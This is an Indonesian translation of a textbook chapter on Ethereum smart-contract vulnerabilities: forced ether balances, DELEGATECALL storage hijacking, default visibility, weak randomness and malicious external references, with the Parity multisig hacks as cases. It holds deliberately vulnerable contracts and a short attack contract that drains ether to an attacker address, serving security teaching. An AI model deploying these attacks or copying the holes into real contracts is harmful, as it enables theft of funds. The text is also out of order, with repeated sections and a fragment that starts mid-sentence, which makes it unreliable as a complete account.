20    }
21    else if (currentBalance == payoutMileStone2) {
22      redeemableEther[msg.sender] += mileStone2Reward;
23    }
24    else if (currentBalance == finalMileStone ) {
25      redeemableEther[msg.sender] += finalReward;
26    }
27    depositedWei += msg.value;
28    return;
29  }
30
31  function claimReward() public {
32    // pastikan permainan selesai
33    require(depositedWei == finalMileStone);
34    // pastikan ada hadiah untuk diberikan
35    require(redeemableEther[msg.sender] > 0);
36    uint256 transferValue = redeemableEther[msg.sender];
37    redeemableEther[msg.sender] = 0;
38    msg.sender.transfer(transferValue);
39  }
40 }
```

Di sini, kami telah membuat variabel baru, `depositedWei`, yang melacak ether yang diketahui telah disetor, dan variabel inilah yang kami gunakan untuk pengujian kami. Perhatikan bahwa kami tidak lagi memiliki referensi ke `address(this).balance`.

##### Contoh Lebih Lanjut

Beberapa contoh kontrak yang dapat dieksploitasi diberikan dalam *Underhanded Solidity Coding Contest*, yang juga menyediakan contoh-contoh yang diperluas dari sejumlah jebakan yang diangkat di bagian ini.

### DELEGATECALL

*Opcode* `CALL` dan `DELEGATECALL` berguna dalam memungkinkan pengembang Ethereum untuk memodularisasi kode mereka. Panggilan pesan eksternal standar ke kontrak ditangani oleh *opcode* `CALL`, di mana kode dijalankan dalam konteks kontrak/fungsi eksternal. *Opcode* `DELEGATECALL` hampir identik, kecuali bahwa kode yang dieksekusi di alamat yang ditargetkan dijalankan **dalam konteks kontrak pemanggil**, dan `msg.sender` serta `msg.value` tetap tidak berubah. Fitur ini memungkinkan implementasi **pustaka (*libraries*)**, memungkinkan pengembang untuk menerapkan kode yang dapat digunakan kembali sekali dan memanggilnya dari kontrak masa depan.

Meskipun perbedaan antara kedua *opcode* ini sederhana dan intuitif, penggunaan `DELEGATECALL` dapat menyebabkan eksekusi kode yang tidak terduga.

Untuk bacaan lebih lanjut, lihat pertanyaan Loi.Luu di Ethereum Stack Exchange tentang topik ini dan dokumentasi Solidity.

##### Kerentanan

Sebagai akibat dari sifat `DELEGATECALL` yang mempertahankan konteks, membangun pustaka kustom yang bebas kerentanan tidak semudah yang dibayangkan. Kode di dalam pustaka itu sendiri bisa aman dan bebas kerentanan; namun, ketika dijalankan dalam konteks aplikasi lain, kerentanan baru bisa muncul. Mari kita lihat contoh yang cukup kompleks tentang ini, menggunakan bilangan Fibonacci.

Pertimbangkan pustaka di Contoh 9-6, yang dapat menghasilkan urutan Fibonacci dan urutan bentuk serupa. (Catatan: kode ini dimodifikasi dari [https://bit.ly/2MReuii](https://bit.ly/2MReuii).)

**Contoh 9-6. FibonacciLib.sol**

```solidity
1 // kontrak pustaka - menghitung angka seperti Fibonacci
2 contract FibonacciLib {
3
4   // menginisialisasi urutan Fibonacci standar
5   uint public start;
6   uint public calculatedFibNumber;
7
8   // memodifikasi angka ke-nol dalam urutan
9   function setStart(uint _start) public {
10    start = _start;
11  }
12
13  function setFibonacci(uint n) public {
14    calculatedFibNumber = fibonacci(n);
15  }
16
17  function fibonacci(uint n) internal returns (uint) {
18    if (n == 0) return start;
19    else if (n == 1) return start + 1;
20    else return fibonacci(n - 1) + fibonacci(n - 2);
21  }
22 }
```

Pustaka ini menyediakan fungsi yang dapat menghasilkan bilangan Fibonacci ke-n dalam urutan. Ini memungkinkan pengguna untuk mengubah angka awal urutan (`start`) dan menghitung bilangan seperti Fibonacci ke-n dalam urutan baru ini.

Sekarang mari kita pertimbangkan sebuah kontrak yang memanfaatkan pustaka ini, ditunjukkan pada Contoh 9-7.

**Contoh 9-7. FibonacciBalance.sol**

```solidity
1 contract FibonacciBalance {
2
3   address public fibonacciLibrary;
4   // nomor Fibonacci saat ini untuk ditarik
5   uint public calculatedFibNumber;
6   // nomor urutan Fibonacci awal
7   uint public start = 3;
8   uint public withdrawalCounter;
9   // selektor fungsi Fibonacci
10  bytes4 constant fibSig = bytes4(keccak256("setFibonacci(uint256)"));
11
12  // konstruktor - mengisi kontrak dengan ether
13  constructor(address _fibonacciLibrary) public payable {
14    fibonacciLibrary = _fibonacciLibrary;
15  }
16
17  function withdraw() public {
18    withdrawalCounter += 1;
19    // hitung nomor Fibonacci untuk pengguna penarikan saat ini-
20    // ini menetapkan calculatedFibNumber
21    require(fibonacciLibrary.delegatecall(fibSig, withdrawalCounter));
22    msg.sender.transfer(calculatedFibNumber * 1 ether);
23  }
24
25  // izinkan pengguna untuk memanggil fungsi pustaka Fibonacci
26  function() public {
27    require(fibonacciLibrary.delegatecall(msg.data));
28  }
29 }
```

Kontrak ini memungkinkan seorang peserta untuk menarik ether dari kontrak, dengan jumlah ether sama dengan bilangan Fibonacci yang sesuai dengan urutan penarikan peserta; yaitu, peserta pertama mendapatkan 1 ether, yang kedua juga mendapatkan 1, yang ketiga mendapatkan 2, yang keempat 3, yang kelima 5, dan seterusnya (sampai saldo kontrak kurang dari bilangan Fibonacci yang ditarik).

Ada sejumlah elemen dalam kontrak ini yang mungkin memerlukan beberapa penjelasan. Pertama, ada variabel yang tampak menarik, `fibSig`. Ini menyimpan 4 byte pertama dari hash Keccak-256 (SHA-3) dari string `'setFibonacci(uint256)'`. Ini dikenal sebagai **selektor fungsi** dan dimasukkan ke dalam `calldata` untuk menentukan fungsi mana dari sebuah kontrak pintar yang akan dipanggil. Ini digunakan dalam fungsi `delegatecall` di baris 21 untuk menentukan bahwa kita ingin menjalankan fungsi `setFibonacci(uint256)`. Argumen kedua dalam `delegatecall` adalah parameter yang kita berikan ke fungsi tersebut. Kedua, kita asumsikan bahwa alamat untuk pustaka `FibonacciLib` direferensikan dengan benar di konstruktor (Bab “Referensi Kontrak Eksternal” di halaman 194 membahas beberapa potensi kerentanan yang berkaitan dengan jenis inisialisasi referensi kontrak ini).

Dapatkah Anda melihat kesalahan apa pun di kontrak ini? Jika seseorang menerapkan kontrak ini, mengisinya dengan ether, dan memanggil `withdraw`, kemungkinan besar akan gagal.

Anda mungkin telah memperhatikan bahwa variabel keadaan `start` digunakan baik di pustaka maupun di kontrak pemanggil utama. Di kontrak pustaka, `start` digunakan untuk menentukan awal dari urutan Fibonacci dan diatur ke 0, sedangkan diatur ke 3 di kontrak pemanggil. Anda mungkin juga memperhatikan bahwa fungsi *fallback* di kontrak `FibonacciBalance` memungkinkan semua panggilan untuk diteruskan ke kontrak pustaka, yang memungkinkan fungsi `setStart` dari kontrak pustaka untuk dipanggil. Mengingat bahwa kita mempertahankan keadaan kontrak, mungkin tampak bahwa fungsi ini akan memungkinkan Anda untuk mengubah keadaan variabel `start` di kontrak lokal `FibonacciBalance`. Jika demikian, ini akan memungkinkan seseorang untuk menarik lebih banyak ether, karena `calculatedFibNumber` yang dihasilkan bergantung pada variabel `start` (seperti yang terlihat di kontrak pustaka). Kenyataannya, fungsi `setStart` tidak (dan tidak bisa) memodifikasi variabel `start` di kontrak `FibonacciBalance`. Kerentanan yang mendasari dalam kontrak ini jauh lebih buruk daripada hanya memodifikasi variabel `start`.

Sebelum membahas masalah sebenarnya, mari kita mengambil jalan memutar singkat untuk memahami bagaimana variabel keadaan sebenarnya disimpan di dalam kontrak. Variabel keadaan atau penyimpanan (*storage*) (variabel yang bertahan di antara transaksi individu) ditempatkan ke dalam **slot** secara berurutan saat mereka diperkenalkan di dalam kontrak. (Ada beberapa kerumitan di sini; konsultasikan dokumentasi Solidity untuk pemahaman yang lebih menyeluruh.)

Sebagai contoh, mari kita lihat kontrak pustaka. Ia memiliki dua variabel keadaan, `start` dan `calculatedFibNumber`. Variabel pertama, `start`, disimpan di penyimpanan kontrak di `slot[0]` (yaitu, slot pertama). Variabel kedua, `calculatedFibNumber`, ditempatkan di slot penyimpanan berikutnya yang tersedia, `slot[1]`. Fungsi `setStart` mengambil sebuah input dan mengatur `start` menjadi apa pun inputnya. Fungsi ini oleh karena itu mengatur `slot[0]` menjadi input apa pun yang kita berikan di fungsi `setStart`. Demikian pula, fungsi `setFibonacci` mengatur `calculatedFibNumber` menjadi hasil dari `fibonacci(n)`. Sekali lagi, ini hanyalah mengatur `slot[1]` penyimpanan menjadi nilai `fibonacci(n)`.

Sekarang mari kita lihat kontrak `FibonacciBalance`. `Slot[0]` penyimpanan sekarang sesuai dengan alamat `fibonacciLibrary`, dan `slot[1]` sesuai dengan `calculatedFibNumber`. Di dalam pemetaan yang salah inilah kerentanan terjadi. **`delegatecall` mempertahankan konteks kontrak.** Ini berarti bahwa kode yang dieksekusi melalui `delegatecall` akan bertindak pada keadaan (yaitu, penyimpanan) dari kontrak pemanggil.

Sekarang perhatikan bahwa di `withdraw` pada baris 21 kita mengeksekusi `fibonacciLibrary.delegatecall(fibSig,withdrawalCounter)`. Ini memanggil fungsi `setFibonacci`, yang, seperti yang kita diskusikan, memodifikasi `slot[1]` penyimpanan, yang dalam konteks kita saat ini adalah `calculatedFibNumber`. Ini seperti yang diharapkan (yaitu, setelah eksekusi, `calculatedFibNumber` dimodifikasi). Namun, ingatlah bahwa variabel `start` di kontrak `FibonacciLib` terletak di `slot[0]` penyimpanan, yang merupakan alamat `fibonacciLibrary` di kontrak saat ini. Ini berarti bahwa fungsi `fibonacci` akan memberikan hasil yang tidak terduga. Ini karena ia mereferensikan `start` (`slot[0]`), yang dalam konteks pemanggil saat ini adalah alamat `fibonacciLibrary` (yang seringkali akan cukup besar, ketika ditafsirkan sebagai `uint`). Dengan demikian, kemungkinan fungsi `withdraw` akan gagal, karena tidak akan berisi jumlah ether sebesar `uint(fibonacciLibrary)`, yang merupakan hasil yang akan dikembalikan oleh `calculatedFibNumber`.

Lebih buruk lagi, kontrak `FibonacciBalance` memungkinkan pengguna untuk memanggil semua fungsi `fibonacciLibrary` melalui fungsi *fallback* di baris 26. Seperti yang kita diskusikan sebelumnya, ini termasuk fungsi `setStart`. Kita membahas bahwa fungsi ini memungkinkan siapa pun untuk memodifikasi atau mengatur `slot[0]` penyimpanan. Dalam kasus ini, `slot[0]` penyimpanan adalah alamat `fibonacciLibrary`. Oleh karena itu, seorang penyerang dapat membuat kontrak jahat, mengubah alamat menjadi `uint` (ini dapat dilakukan dengan mudah di Python menggunakan `int('<address>',16)`), dan kemudian memanggil `setStart(<attack_contract_address_as_uint>)`. Ini akan mengubah `fibonacciLibrary` ke alamat kontrak serangan. Kemudian, setiap kali pengguna memanggil `withdraw` atau fungsi *fallback*, kontrak jahat akan berjalan (yang dapat mencuri seluruh saldo kontrak) karena kita telah memodifikasi alamat sebenarnya untuk `fibonacciLibrary`. Contoh kontrak serangan semacam itu adalah:

```solidity
1 contract Attack {
2
3   uint storageSlot0; // sesuai dengan fibonacciLibrary
4   uint storageSlot1; // sesuai dengan calculatedFibNumber
5
6   // fallback - ini akan berjalan jika fungsi yang ditentukan tidak ditemukan
7   function() public {
8     storageSlot1 = 0; // kita setel calculatedFibNumber ke 0, jadi jika withdraw
9     // dipanggil kita tidak mengirim ether apa pun
10    <attacker_address>.transfer(address(this).balance); // kita ambil semua ether
11  }
12 }
```

Perhatikan bahwa kontrak serangan ini memodifikasi `calculatedFibNumber` dengan mengubah `slot[1]` penyimpanan. Pada prinsipnya, seorang penyerang dapat memodifikasi slot penyimpanan lain yang mereka pilih, untuk melakukan segala macam serangan pada kontrak ini. Kami mendorong Anda untuk menempatkan kontrak-kontrak ini ke dalam Remix dan bereksperimen dengan berbagai kontrak serangan dan perubahan keadaan melalui fungsi `delegatecall` ini.

Penting juga untuk memperhatikan bahwa ketika kita mengatakan bahwa `delegatecall` mempertahankan keadaan, kita tidak berbicara tentang nama variabel dari kontrak, melainkan slot penyimpanan sebenarnya yang ditunjuk oleh nama-nama tersebut. Seperti yang dapat Anda lihat dari contoh ini, kesalahan sederhana dapat menyebabkan penyerang membajak seluruh kontrak dan ether-nya.

##### Teknik Pencegahan

Solidity menyediakan kata kunci `library` untuk mengimplementasikan kontrak pustaka (lihat dokumentasi untuk detail lebih lanjut). Ini memastikan kontrak pustaka **tanpa keadaan (*stateless*)** dan tidak dapat dihancurkan sendiri. Memaksa pustaka untuk menjadi tanpa keadaan mengurangi kerumitan konteks penyimpanan yang ditunjukkan di bagian ini. Pustaka tanpa keadaan juga mencegah serangan di mana penyerang memodifikasi keadaan pustaka secara langsung untuk mempengaruhi kontrak yang bergantung pada kode pustaka. Sebagai aturan umum, saat menggunakan `DELEGATECALL`, perhatikan dengan cermat kemungkinan konteks panggilan dari kedua kontrak pustaka dan kontrak pemanggil, dan bila memungkinkan, bangun pustaka tanpa keadaan.

##### Contoh Dunia Nyata: Dompet Multisig Parity (Peretasan Kedua)

Peretasan Dompet Multisig Parity Kedua adalah contoh bagaimana kode pustaka yang ditulis dengan baik dapat dieksploitasi jika dijalankan di luar konteks yang dimaksudkan. Ada sejumlah penjelasan yang baik tentang peretasan ini, seperti “Parity Multisig Hacked. Again” dan “An In-Depth Look at the Parity Multisig Bug”.

Untuk menambahkan referensi ini, mari kita jelajahi kontrak yang dieksploitasi. Kontrak pustaka dan dompet dapat ditemukan di GitHub.

Kontrak pustaka adalah sebagai berikut:

```solidity
1 contract WalletLibrary is WalletEvents {
2
3   ...
4
5   // lemparkan kesalahan kecuali kontrak belum diinisialisasi.
6   modifier only_uninitialized { if (m_numOwners > 0) throw; _; }
7
8   // konstruktor - hanya meneruskan larik owner ke multiowned dan
9   // batas ke daylimit
10  function initWallet(address[] _owners, uint _required, uint _daylimit)
11    only_uninitialized public {
12    initDaylimit(_daylimit);
13    initMultiowned(_owners, _required);
14  }
15
16  // mematikan kontrak mengirim semuanya ke `_to`.
17  function kill(address _to) onlymanyowners(sha3(msg.data)) external {
18    suicide(_to);
19  }
20
21  ...
22
23 }
```

Dan inilah kontrak dompetnya:

```solidity
1 contract Wallet is WalletEvents {
2
3   ...
4
5   // METODE
6
7   // dipanggil ketika tidak ada fungsi lain yang cocok
8   function() payable public {
9     // hanya dikirimi uang tunai?
10    if (msg.value > 0)
11      Deposit(msg.sender, msg.value);
12    else if (msg.data.length > 0)
13      _walletLibrary.delegatecall(msg.data);
14  }
15
16  ...
17
18  // BIDANG
19  address constant _walletLibrary =
20    0xcafecafecafecafecafecafecafecafecafecafe;
21 }
```

Perhatikan bahwa kontrak `Wallet` pada dasarnya meneruskan semua panggilan ke kontrak `WalletLibrary` melalui `delegatecall`. Alamat konstan `_walletLibrary` dalam cuplikan kode ini bertindak sebagai penampung untuk kontrak `WalletLibrary` yang sebenarnya diterapkan (yang berada di `0x863DF6BFa4469f3ead0bE8f9F2AAE51c91A907b4`).

Operasi yang dimaksudkan dari kontrak-kontrak ini adalah untuk memiliki kontrak `Wallet` yang sederhana dan berbiaya rendah untuk diterapkan yang basis kodenya dan fungsionalitas utamanya ada di kontrak `WalletLibrary`. Sayangnya, kontrak `WalletLibrary` itu sendiri adalah sebuah kontrak dan mempertahankan keadaannya sendiri. Bisakah Anda melihat mengapa ini mungkin menjadi masalah?

Dimungkinkan untuk mengirim panggilan ke kontrak `WalletLibrary` itu sendiri. Secara khusus, kontrak `WalletLibrary` dapat diinisialisasi dan menjadi dimiliki. Faktanya, seorang pengguna melakukan ini, memanggil fungsi `initWallet` pada kontrak `WalletLibrary` dan menjadi pemilik kontrak pustaka. Pengguna yang sama kemudian memanggil fungsi `kill`. Karena pengguna adalah pemilik kontrak pustaka, pengubah lolos dan kontrak pustaka hancur sendiri. Karena semua kontrak `Wallet` yang ada merujuk ke kontrak pustaka ini dan tidak mengandung metode untuk mengubah referensi ini, semua fungsionalitas mereka, termasuk kemampuan untuk menarik ether, hilang bersama dengan kontrak `WalletLibrary`. Akibatnya, semua ether di semua dompet multisig Parity jenis ini langsung hilang atau tidak dapat dipulihkan secara permanen.

### Visibilitas Default

Fungsi di Solidity memiliki penentu visibilitas yang menentukan bagaimana mereka dapat dipanggil. Visibilitas menentukan apakah sebuah fungsi dapat dipanggil secara eksternal oleh pengguna, oleh kontrak turunan lain, hanya secara internal, atau hanya secara eksternal. Ada empat penentu visibilitas, yang dijelaskan secara rinci dalam dokumentasi Solidity. Fungsi secara default bersifat **`public`**, memungkinkan pengguna untuk memanggilnya secara eksternal. Sekarang kita akan melihat bagaimana penggunaan penentu visibilitas yang salah dapat menyebabkan beberapa kerentanan yang menghancurkan dalam kontrak pintar.

##### Kerentanan

Visibilitas default untuk fungsi adalah `public`, jadi fungsi yang tidak menentukan visibilitasnya akan dapat dipanggil oleh pengguna eksternal. Masalah muncul ketika pengembang secara keliru menghilangkan penentu visibilitas pada fungsi yang seharusnya `private` (atau hanya dapat dipanggil di dalam kontrak itu sendiri).

Mari kita cepat jelajahi contoh sepele:

```solidity
1 contract HashForEther {
2
3   function withdrawWinnings() {
4     // Pemenang jika 8 karakter hex terakhir dari alamat adalah 0
5     require(uint32(msg.sender) == 0);
6     _sendWinnings();
7   }
8
9   function _sendWinnings() {
10    msg.sender.transfer(address(this).balance);
11  }
12 }
```

Kontrak sederhana ini dirancang untuk bertindak sebagai permainan hadiah tebak alamat. Untuk memenangkan saldo kontrak, seorang pengguna harus menghasilkan alamat Ethereum yang 8 karakter heksadesimal terakhirnya adalah 0. Setelah tercapai, mereka dapat memanggil fungsi `withdrawWinnings` untuk mendapatkan hadiah mereka.

Sayangnya, visibilitas fungsi belum ditentukan. Secara khusus, fungsi `_sendWinnings` bersifat `public` (default), dan dengan demikian alamat mana pun dapat memanggil fungsi ini untuk mencuri hadiah.

##### Teknik Pencegahan

Merupakan praktik yang baik untuk selalu menentukan visibilitas semua fungsi dalam sebuah kontrak, bahkan jika sengaja bersifat `public`. Versi terbaru `solc` menunjukkan peringatan untuk fungsi yang tidak memiliki visibilitas eksplisit yang ditetapkan, untuk mendorong praktik ini.

##### Contoh Dunia Nyata: Dompet Multisig Parity (Peretasan Pertama)

Dalam peretasan multisig Parity pertama, sekitar $31 Juta Ether dicuri, sebagian besar dari tiga dompet. Rekap yang baik tentang bagaimana persisnya ini dilakukan diberikan oleh Haseeb Qureshi.

Pada dasarnya, dompet multisig dibangun dari kontrak dasar `Wallet`, yang memanggil kontrak pustaka yang berisi fungsionalitas inti (seperti yang dijelaskan dalam “Contoh Dunia Nyata: Dompet Multisig Parity (Peretasan Kedua)” di halaman 189). Kontrak pustaka berisi kode untuk menginisialisasi dompet, seperti yang dapat dilihat dari cuplikan berikut:

```solidity
1 contract WalletLibrary is WalletEvents {
2
3   ...
4
5   // METODE
6
7   ...
8
9   // konstruktor diberi jumlah sig yang diperlukan untuk melakukan
10  // transaksi "onlymanyowners" yang dilindungi serta pemilihan alamat
11  // yang mampu mengkonfirmasinya
12  function initMultiowned(address[] _owners, uint _required) public {
13    m_numOwners = _owners.length + 1;
14    m_owners[1] = uint(msg.sender);
15    m_ownerIndex[uint(msg.sender)] = 1;
16    for (uint i = 0; i < _owners.length; ++i)
17    {
18      m_owners[2 + i] = uint(_owners[i]);
19      m_ownerIndex[uint(_owners[i])] = 2 + i;
20    }
21    m_required = _required;
22  }
23
24  ...
25
26  // konstruktor - hanya meneruskan larik owner ke multiowned dan
27  // batas ke daylimit
28  function initWallet(address[] _owners, uint _required, uint _daylimit) public {
29    initDaylimit(_daylimit);
30    initMultiowned(_owners, _required);
31  }
32 }
```

Perhatikan bahwa tidak ada fungsi yang menentukan visibilitasnya, jadi keduanya secara default bersifat `public`. Fungsi `initWallet` dipanggil di konstruktor dompet, dan mengatur pemilik untuk dompet multisig seperti yang dapat dilihat di fungsi `initMultiowned`. Karena fungsi-fungsi ini secara tidak sengaja dibiarkan `public`, seorang penyerang dapat memanggil fungsi-fungsi ini pada kontrak yang diterapkan, mengatur ulang kepemilikan ke alamat penyerang. Menjadi pemilik, penyerang kemudian menguras dompet dari semua ether mereka.

### Ilusi Entropi

Semua transaksi di blockchain Ethereum adalah operasi transisi keadaan yang deterministik. Ini berarti bahwa setiap transaksi memodifikasi keadaan global ekosistem Ethereum dengan cara yang dapat dihitung, tanpa ketidakpastian. Ini memiliki implikasi mendasar bahwa **tidak ada sumber entropi atau keacakan di Ethereum**. Mencapai entropi terdesentralisasi (keacakan) adalah masalah yang terkenal yang solusinya banyak diusulkan, termasuk RANDAO, atau menggunakan rantai hash, seperti yang dijelaskan oleh Vitalik Buterin di postingan blog “Pengurutan Validator dan Keacakan di PoS”.

##### Kerentanan

Beberapa kontrak pertama yang dibangun di platform Ethereum didasarkan pada perjudian. Pada dasarnya, perjudian membutuhkan ketidakpastian (sesuatu untuk dipertaruhkan), yang membuat membangun sistem perjudian di blockchain (sistem deterministik) agak sulit. Jelas bahwa ketidakpastian harus datang dari sumber di luar blockchain. Ini dimungkinkan untuk taruhan antar pemain (lihat misalnya teknik *commit–reveal*); namun, jauh lebih sulit jika Anda ingin mengimplementasikan kontrak untuk bertindak sebagai “rumah” (seperti di blackjack atau roulette). Kesalahan umum adalah menggunakan **variabel blok masa depan**—yaitu, variabel yang berisi informasi tentang blok transaksi yang nilainya belum diketahui, seperti hash, stempel waktu, nomor blok, atau batas gas. Masalahnya adalah variabel-variabel ini dikendalikan oleh penambang yang menambang blok tersebut, dan karena itu tidak benar-benar acak. Pertimbangkan, misalnya, kontrak pintar roulette dengan logika yang mengembalikan angka hitam jika hash blok berikutnya berakhir dengan angka genap. Seorang penambang (atau kolam penambang) bisa bertaruh $1 Juta pada hitam. Jika mereka menyelesaikan blok berikutnya dan menemukan hash berakhir dengan angka ganjil, mereka bisa dengan senang hati tidak mempublikasikan blok mereka dan menambang yang lain, sampai mereka menemukan solusi dengan hash blok menjadi angka genap (dengan asumsi hadiah blok dan biaya kurang dari $1 Juta). Menggunakan variabel masa lalu atau sekarang bisa lebih menghancurkan, seperti yang didemonstrasikan Martin Swende di postingan blognya yang luar biasa. Selanjutnya, menggunakan variabel blok semata berarti bahwa angka pseudorandom akan sama untuk semua transaksi dalam satu blok, jadi seorang penyerang dapat melipatgandakan kemenangannya dengan melakukan banyak transaksi dalam satu blok (jika ada taruhan maksimum).

##### Teknik Pencegahan

Sumber entropi (keacakan) harus berada di luar blockchain. Ini dapat dilakukan di antara rekan-rekan dengan sistem seperti *commit–reveal*, atau melalui mengubah model kepercayaan ke sekelompok peserta (seperti di RandDAO). Ini juga dapat dilakukan melalui entitas terpusat yang bertindak sebagai *oracle* keacakan. Variabel blok (secara umum, ada beberapa pengecualian) tidak boleh digunakan untuk sumber entropi, karena dapat dimanipulasi oleh penambang.

##### Contoh Dunia Nyata: Kontrak PRNG

Pada Februari 2018, Arseny Reutov mem-blog tentang analisisnya terhadap 3.649 kontrak pintar aktif yang menggunakan semacam generator angka pseudorandom (PRNG); ia menemukan 43 kontrak yang dapat dieksploitasi.

### Referensi Kontrak Eksternal

Salah satu manfaat dari “komputer dunia” Ethereum adalah kemampuan untuk menggunakan kembali kode dan berinteraksi dengan kontrak yang sudah diterapkan di jaringan. Akibatnya, sejumlah besar kontrak mereferensikan kontrak eksternal, biasanya melalui panggilan pesan eksternal. Panggilan pesan eksternal ini dapat menutupi niat aktor jahat dengan beberapa cara yang tidak jelas, yang akan kita periksa sekarang.

##### Kerentanan

Di Solidity, alamat apa pun dapat di-*cast* menjadi sebuah kontrak, terlepas dari apakah kode di alamat tersebut mewakili jenis kontrak yang di-*cast*. Ini dapat menyebabkan masalah, terutama ketika penulis kontrak mencoba menyembunyikan kode jahat. Mari kita ilustrasikan ini dengan sebuah contoh.

Pertimbangkan sepotong kode seperti Contoh 9-8, yang secara sederhana mengimplementasikan [ROT13 chiper](https://en.wikipedia.org/wiki/ROT13).

mengirimkan sejumlah kecil ether—katakanlah, 0,1 ether—melalui fungsi `selfdestruct` (dibahas sebelumnya) untuk mencegah pemain masa depan mencapai *milestone*. `address(this).balance` tidak akan pernah menjadi kelipatan 0,5 ether berkat kontribusi 0,1 ether ini, karena semua pemain yang sah hanya dapat mengirim dalam kelipatan 0,5 ether. Ini mencegah semua kondisi `if` di baris 18, 21, dan 24 menjadi benar.

Lebih buruk lagi, seorang penyerang pendendam yang melewatkan sebuah *milestone* dapat secara paksa mengirim 10 ether (atau jumlah ether yang setara yang mendorong saldo kontrak di atas `finalMileStone`), yang akan mengunci semua hadiah di dalam kontrak selamanya. Ini karena fungsi `claimReward` akan selalu gagal, karena `require` di baris 32 (yaitu, karena `address(this).balance` lebih besar dari `finalMileStone`).

##### Teknik Pencegahan

Jenis kerentanan ini biasanya muncul dari penyalahgunaan `address(this).balance`. Logika kontrak, bila memungkinkan, harus menghindari ketergantungan pada nilai pasti dari saldo kontrak, karena dapat dimanipulasi secara artifisial. Jika menerapkan logika berdasarkan `address(this).balance`, Anda harus mengatasi saldo yang tidak terduga.

Jika nilai pasti dari ether yang disetor diperlukan, variabel yang didefinisikan sendiri harus digunakan yang dinaikkan nilainya dalam fungsi `payable`, untuk melacak ether yang disetor dengan aman. Variabel ini tidak akan terpengaruh oleh ether yang dikirim secara paksa melalui panggilan `selfdestruct`.

Dengan pemikiran ini, versi yang diperbaiki dari kontrak `EtherGame` bisa terlihat seperti:

```solidity
1 contract EtherGame {
2
3   uint public payoutMileStone1 = 3 ether;
4   uint public mileStone1Reward = 2 ether;
5   uint public payoutMileStone2 = 5 ether;
6   uint public mileStone2Reward = 3 ether;
7   uint public finalMileStone = 10 ether;
8   uint public finalReward = 5 ether;
9   uint public depositedWei;
10
11  mapping (address => uint) redeemableEther;
12
13  function play() public payable {
14    require(msg.value == 0.5 ether);
15    uint currentBalance = depositedWei + msg.value;
16    // pastikan tidak ada pemain setelah permainan selesai
17    require(currentBalance <= finalMileStone);
18    if (currentBalance == payoutMileStone1) {
19      redeemableEther[msg.sender] += mileStone1Reward;
20    }
21    else if (currentBalance == payoutMileStone2) {
22      redeemableEther[msg.sender] += mileStone2Reward;
23    }
24    else if (currentBalance == finalMileStone ) {
25      redeemableEther[msg.sender] += finalReward;
26    }
27    depositedWei += msg.value;
28    return;
29  }
30
31  function claimReward() public {
32    // pastikan permainan selesai
33    require(depositedWei == finalMileStone);
34    // pastikan ada hadiah untuk diberikan
35    require(redeemableEther[msg.sender] > 0);
36    uint256 transferValue = redeemableEther[msg.sender];
37    redeemableEther[msg.sender] = 0;
38    msg.sender.transfer(transferValue);
39  }
40 }
```

Di sini, kami telah membuat variabel baru, `depositedWei`, yang melacak ether yang diketahui telah disetor, dan variabel inilah yang kami gunakan untuk pengujian kami. Perhatikan bahwa kami tidak lagi memiliki referensi ke `address(this).balance`.

##### Contoh Lebih Lanjut

Beberapa contoh kontrak yang dapat dieksploitasi diberikan dalam *Underhanded Solidity Coding Contest*, yang juga menyediakan contoh-contoh yang diperluas dari sejumlah jebakan yang diangkat di bagian ini.

### DELEGATECALL

*(Bagian ini telah dibahas di Bab 9 sebelumnya)*

**Contoh 9-8. Rot13Encryption.sol**

```solidity
1 // kontrak enkripsi
2 contract Rot13Encryption {
3
4   event Result(string convertedString);
5
6   // mengenkripsi string dengan rot13
7   function rot13Encrypt (string memory text) public {
8     uint256 length = bytes(text).length;
9     for (uint i = 0; i < length; i++) {
10      bytes1 char = bytes(text)[i];
11      // assembly sebaris untuk memodifikasi string
12      assembly {
13        // ambil byte pertama
14        char := byte(0,char)
15        // jika karakter berada di [n,z], yaitu membungkus
16        if and(gt(char,0x6D), lt(char,0x7B))
17        // kurangi dari angka ASCII 'a',
18        // selisih antara karakter <char> dan 'z'
19        { char:= sub(0x60, sub(0x7A,char)) }
20        if iszero(eq(char, 0x20)) // abaikan spasi
21        // tambahkan 13 ke char
22        {mstore8(add(add(text,0x20), mul(i,1)), add(char,13))}
23      }
24    }
25    emit Result(text);
26  }
27
28  // mendekripsi string dengan rot13
29  function rot13Decrypt (string memory text) public {
30    uint256 length = bytes(text).length;
31    for (uint i = 0; i < length; i++) {
32      bytes1 char = bytes(text)[i];
33      assembly {
34        char := byte(0,char)
35        if and(gt(char,0x60), lt(char,0x6E))
36        { char:= add(0x7B, sub(char,0x61)) }
37        if iszero(eq(char, 0x20))
38        {mstore8(add(add(text,0x20), mul(i,1)), sub(char,13))}
39      }
40    }
41    emit Result(text);
42  }
43 }
```

Kode ini hanya mengambil sebuah string (huruf a–z, tanpa validasi) dan mengenkripsinya dengan menggeser setiap karakter 13 tempat ke kanan (membungkus di sekitar z); yaitu, `a` bergeser ke `n` dan `x` bergeser ke `k`. *Assembly* dalam kontrak sebelumnya tidak perlu dipahami untuk menghargai masalah yang sedang dibahas, jadi pembaca yang tidak terbiasa dengan *assembly* dapat dengan aman mengabaikannya.

Sekarang pertimbangkan kontrak berikut, yang menggunakan kode ini untuk enkripsinya:

```solidity
1 import "Rot13Encryption.sol";
2
3 // enkripsi info rahasia Anda
4 contract EncryptionContract {
5   // pustaka untuk enkripsi
6   Rot13Encryption encryptionLibrary;
7
8   // konstruktor - inisialisasi pustaka
9   constructor(Rot13Encryption _encryptionLibrary) public {
10    encryptionLibrary = _encryptionLibrary;
11  }
12
13  function encryptPrivateData(string memory privateInfo) public {
14    // berpotensi melakukan beberapa operasi di sini
15    encryptionLibrary.rot13Encrypt(privateInfo);
16  }
17 }
```

Masalah dengan kontrak ini adalah bahwa alamat `encryptionLibrary` tidak bersifat `public` atau `constant`. Dengan demikian, penyebar kontrak dapat memberikan alamat di konstruktor yang menunjuk ke kontrak ini:

```solidity
1 // kontrak enkripsi
2 contract Rot26Encryption {
3   // ... (kode serupa dengan Rot13, tetapi menggeser 26 karakter)
22        // tambahkan 26 ke char!
23        {mstore8(add(add(text,0x20), mul(i,1)), add(char,26))}
   // ...
}
```

Kontrak ini mengimplementasikan sandi ROT26, yang menggeser setiap karakter sebanyak 26 tempat (yaitu, tidak melakukan apa-apa). Sekali lagi, tidak perlu memahami *assembly* di kontrak ini. Lebih sederhana lagi, penyerang bisa saja menautkan kontrak berikut dengan efek yang sama:

```solidity
1 contract Print{
2   event Print(string text);
3
4   function rot13Encrypt(string memory text) public {
5     emit Print(text);
6   }
7 }
```

